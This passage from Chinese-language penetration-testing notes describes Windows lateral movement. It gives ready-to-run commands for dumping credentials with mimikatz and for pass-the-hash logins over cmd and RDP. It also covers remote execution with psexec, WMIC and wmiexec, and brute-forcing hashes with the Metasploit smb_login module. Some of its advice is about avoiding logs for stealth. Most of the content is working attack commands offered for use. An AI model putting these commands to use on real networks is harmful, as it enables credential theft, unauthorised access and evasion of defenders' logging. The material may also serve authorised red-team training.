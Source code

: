 - (域)通过 pth 进行远程登录(cmd)

```bash
mimikatz.exe privilege::debug
mimikatz.exe sekurlsa::logonpasswords

mimikatz.exe privilege::debug "sekurlsa::pth /domain:目标机器的域 /user:目标机器的用户名 /ntlm:用户名对应的hash"

mimikatz.exe privilege::debug "sekurlsa::pth /user:win10 /domain:test.com /ntlm:xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx"
```


- 通过 pth 进行远程登录(RDP)

```bash
# 管理员权限下执行以下命令:
mimikatz.exe privilege::debug "sekurlsa::pth /domain:目标机器的域 /user:目标机器的用户名 /ntlm:用户名对应的hash /run:mstsc.exe /restrictedadmin"
```


**PStools**

在启动`psexec`建立连接后，远程系统上会被安装一个服务:`psexecsv`c，安装服务会留下日志，而且psexec推出时有可能服务删除失败，所以`不推荐使用psexec`

当利用exe文件时：

`psexec.exe \\ip –accepteula -u username -p password `

当添加到环境变量时：

`psexec.exe \\ip  -u username -p password program.exe`



**WMIC**

那么有没有一款工具可以代替 `psexec` 呢，当然有，这里介绍一下 `WMIC`,由一组强大的工具集合组成，用于管理本地或远程的 Windows 系统。但Windows系统默认不会再日志中记录这些操作，可以做到无日志，攻击脚本无需写入到磁盘，增加了隐蔽性。

`wmic /node:host /user:administrator /p 密码 process call create “c:\windows\temp\foobar.exe”`


**wmiexec**

使用VBS脚本调用WMI来模拟 psexec 的功能，于是乎WMIEXEC 就诞生了。 推荐使用 `wmiexec` 进行远程执行命令。

- 首先你可能需要rdp上去才能看到返回的值，打开个shell窗口。

`wmiexec.exe -hashes 00000000000000000000000000000000:e20e81c5c06ccf288474c581f13423xx test.com/Administrator@192.168.91.xxx "whoami"`

``

> 抓取的LM hash是AAD3开头的，或者是No Password之类的，计用32个0代替LM hash


**Metasploit：smb_login**

`Metasploit`有一个`auxiliary`辅助模块，可以通过SMB登录到网络中。这个模块需要设置一些选项。我们准备用用户名和hash字典，在信息收集阶段，我们已经收集了很多用户名和hash，制作成了字典，用于此次攻击，攻击完成后，就可以跑出有效的用户名和hash组合，可以在网络中登录到某台主机。

```bash
use auxiliary/scanner/smb/smb_login
set rhosts 192.168.1.105
set user_file user.txt
set pass_file pass.txt
set smbdomain ignite
exploit
```
